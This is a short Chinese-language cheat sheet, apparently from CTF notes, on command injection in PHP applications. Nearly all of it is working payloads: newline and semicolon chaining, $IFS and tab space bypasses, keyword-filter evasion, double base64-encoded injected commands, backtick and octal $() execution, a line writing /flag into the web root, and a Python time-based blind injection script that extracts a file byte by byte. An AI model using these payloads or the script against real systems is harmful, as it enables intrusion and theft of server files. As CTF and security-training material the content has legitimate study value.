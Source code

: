 ```yaml
---
title: 命令执行
---
```


# 命令执行

以下介绍为 PHP 环境

用于命令执行的函数有

```
system
exec
passthru
shell_exec
```



## 一些常见的绕过方法

命令拼接

<img src="/images/exec/1.png" alt="image-20201218105802" style="zoom: 67%;"/>

以及

```
%0a
%0d
\n
```

空格绕过

```
$IFS
${IFS}
$IFS$1
%09
{cat,flag.php}
```

关键字 flag 被过滤

```
fla\g
a=g;fla$a
```

例如：

```
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

或者使用 base64 编码绕过

```
?url=127.0.0.1|`echo%09WTJGMElDOWxkR012TG1acGJtUm1iR0ZuTDJac1lXY3VkSGgw|base64%09-d|base64%09-d`
```

另外如反引号可在语句中执行命令

```
ls `cat /flag > /var/www/html/1.txt`
```

或者使用 $() 和八进制

```
$(printf$IFS$9"\154\163")
```

另附一份无回显盲注脚本

```
import requests
import time

s=requests.session()
flag=''
for z in range(1,50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime=time.time()
        url="http://127.0.0.1/?cmd=if [ `cut -c"+str(z)+"-"+str(z)+" /flag` != '"+i+"' ]; then echo 1 ; else sleep 3; fi"
        r=s.get(url)
        if((time.time()-starTime)>3):
            flag+=i
            print(flag)
            break
    print(z)
print('the flag is'+flag)
```